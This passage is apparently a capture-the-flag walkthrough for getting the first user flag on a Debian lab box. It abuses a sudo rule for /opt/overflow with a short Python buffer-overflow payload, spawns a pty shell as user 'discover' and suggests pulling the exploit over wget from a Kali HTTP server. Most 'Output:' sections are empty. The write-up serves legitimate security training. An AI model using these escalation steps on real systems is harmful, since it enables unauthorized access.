

4.2 Get an user (First flag)
1. Look at the ‘sudo’ permissions of “www.data” user.
www-data@devian:/$ sudo -l
Output:

The command “/opt/overflow” can run command (or edit file) as specified user “discover” without any password.
2. Go to the “/opt" directory and list it.
www-data@debian:/$ cd /opt
www-data@debian:/opt$ ls -al
Output:
There's a file called “hint”.
3. Show the "hint' file content.
www-data@debian:/opt$ cat hint
Output:
4. Visit https://github.com/naivenom/exploiting/blob/master/angstromctf2016/buffer_overflow2.py and make a copy of that file on your victim's machine “/tmp” directory .
import sys
sys.stdout.write("AAAAAAAAAAAAAAAAAAAAAAAA"+"\x5d\x06\x40\x00")
If you have dificult to create it directly on the victime's machine, open a Python HTTP server on your Kali Machine and get from there with the command “wget” on your victim's machine.
5. Run “overflow”.
www-data@debian:/tmp$ sudo -u discover /opt/overflow $(python3 exploit.py)
Output:
6. Stabilize the shell.
$ python3 -c 'import pty;pty.spawn("/bin/bash")'Output:
You're “discover” user.
7. Get the flag.
discover@debian:/tmp$ cd /home/discover
discover@debian:~$ ls -l
discover@debian:~$ cat User.txt
Output: